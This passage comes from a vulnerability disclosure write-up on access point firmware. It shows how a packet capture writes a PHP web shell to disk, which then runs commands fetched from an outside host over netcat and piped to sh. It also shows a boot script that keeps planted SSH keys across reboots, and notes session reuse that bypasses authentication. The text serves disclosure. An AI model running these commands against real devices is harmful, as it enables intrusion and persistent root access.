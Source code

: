 #### Getting a payload onto the AP

We tried various ways on getting files onto the AP, most promising being the upload for
captive portal files, but the developers already thought about that and blocked files
ending in `.php5`.

In the end we found out that the firmware has functionality to capture data on
the wifi interfaces, allowing arbitrary filenames. We can set a filename using
`capture save interface wifi0 TestAccess.class.php5` and start the capture using
`capture interface wifi0 count 10`.
The capture will then be written to `/tmp/capture/TestAccess.class.php5`.

Flooding traffic to a device behind the AP while capturing allows us to write a PHP
payload to that file, e.g. using
`while true; do printf '<?php exec($_GET["cmd"]); die(); ?>' | nc -u 10.25.11.112 1337; done`.

Since PHP simply ignores or passes through everything that is outside of its start and end
markers it really didn't matter that the file effectively started with garbage (packet headers etc).

To finally run the payload we can simply access
`/action.php5?_action=get&_page=/tmp/capture/Test&cmd=nc+10.25.11.34+8888+|+sh` on the AP.
We had issues running larger commands this way, but using netcat to receive additional
shell commands worked very reliably for us. You could probably also just send over a
bigger payload during the capture process.

## Persisting root access (no CVE)

Gaining root access allowed us to write SSH authorized keys onto the AP for both
the admin user as well as the root user. We really liked that as a "feature",
so we wanted to find a way to persist our keys over reboots.

Looking around the bootup scripts we spotted the following snippet in `/opt/ah/etc/ah_start`:

```shell
#
# run per board start script
#
if [ -f /f/etc/ah_start_template ]; then
		/f/etc/ah_start_template
fi
```

Since files under `/f` are persistent we were able to write a small script creating
our authorized_keys file, which now gets executed on every boot.

The file also survived a firmware upgrade and at least one factory reset, even
though we were not able to reproduce that, it might be that this behaviour has
previously been fixed with some of the later firmwares we tried.

## Broken webserver authentication (no CVE)

During the work on the previous exploit we re-discovered a security vulnerability
where the code on the webserver is not actually verifying the authentication of the
current user, but rather creates a session file for the first successful login, which
later on can be reused by any session id, that's also why our examples just used `a`
as session id, it simply didn't matter.
